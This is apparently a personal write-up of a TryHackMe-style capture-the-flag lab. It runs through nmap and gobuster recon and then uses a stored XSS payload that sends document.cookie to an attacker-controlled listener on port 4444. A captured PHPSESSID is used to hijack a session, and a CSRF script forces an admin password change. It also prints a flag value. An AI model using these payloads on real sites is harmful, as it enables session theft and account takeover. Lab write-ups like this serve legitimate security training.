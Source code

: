 #medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Whats Your Name?
**IP** : 10.10.219.254
**Objectives :** Get the accessing the moderator account flag and the admin panel flag
**OS :** ?

##### **Conclusion**
**Time :** 
	**Start :** 25.03.2025 18:55
	**Break at/to :** 25.03.2025 19:14 / 25.03.2025 20:04
	**Finish :** 
**Satisfaction :**  
### 1. **Reconnaissance

First #nmap scan

```BASH
map -A -p- -v 10.10.219.254
```


Output :

```BASH
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

It's a web app.

We will analyse the web app with #burpsuite 

On the port 80 we have this sitemap and we have the possibilitie to pre-register.
![[Pasted image 20250325190405.png]]

We can try to register.
One we register we have a login page but when we want to login it's say "User not verified" but we also have this :
![[Pasted image 20250325191031.png]]

But the subdomain doesn't work.

When we enter admin instead of Bobinette it's said "Invalid email or password".

We find some pages with #gobuster 

Output :

```BASH
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 1797]
/login.php            (Status: 200) [Size: 1785]
/register.php         (Status: 200) [Size: 2188]
/admin.php            (Status: 403) [Size: 0]
/upload.php           (Status: 403) [Size: 0]
/logout.php           (Status: 200) [Size: 154]
/mod.php              (Status: 403) [Size: 0]
/dashboard.php        (Status: 403) [Size: 0]
```



On the port 8081 we have nothin execpt a message who let know us that there is a login.php page.

![[Pasted image 20250325190550.png]]

We find some pages with #gobuster 

Output :

```BASH
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/admin.py             (Status: 200) [Size: 5537]
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 279]
```

## 2. **Weaponization

```JS
<script>  
var img = new Image();  
img.src = 'http://10.10.235.199:4444/stealcookies?'+ document.cookie;  
</script>
```

## 3. **Delivery

![[Pasted image 20250325203616.png]]

We enter this payloads for see if we can steal a user cookie. With an #XSS

## 4. **Exploitation

With our exploit with the #XSS doesn't work.
But after a few second a PHPSESSID just appear.

```BASH
root@ip-10-10-235-199:~# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.10.53.234 - - [25/Mar/2025 19:38:03] code 404, message File not found
10.10.53.234 - - [25/Mar/2025 19:38:03] "GET /stealcookies?PHPSESSID=16qkgn0k0sehun9gjmsiiedthj HTTP/1.1" 404 -
```

And by changing ou PHPSESSID and go to `dashboard.php` it's show this :
![[Pasted image 20250325204238.png]]

On the port 8081 if we also change the PHPSESSID we can have the first flag :
![[Pasted image 20250325205110.png]]

```FLAG
ModP@wnEd
```


On the `chat.php` page we can send an #XSS and it's working. So we send the same payload and we got an PHPSESSID but it's change nothing. But we know one thing, i'ts the admin bot and he probabely open the message one day. So we send the payload of CSRF task7 to the bot :

```JS
<script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', "http" + "://worldwap.thm:8081/change_password.php", true);
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.onreadystatechange = function () {
            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                alert("Action executed!");
            }
        };
        xhr.send('action=execute&new_password=password123');
    </script>
```

So now we juste need to logout and log as admin with `admin:password123`
But I don't know why it's doesn't work. So I remember that we have a admin.py file. And It's was maybe an error of THM but there is the admin password:
![[Pasted image 20250325212939.png]]

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives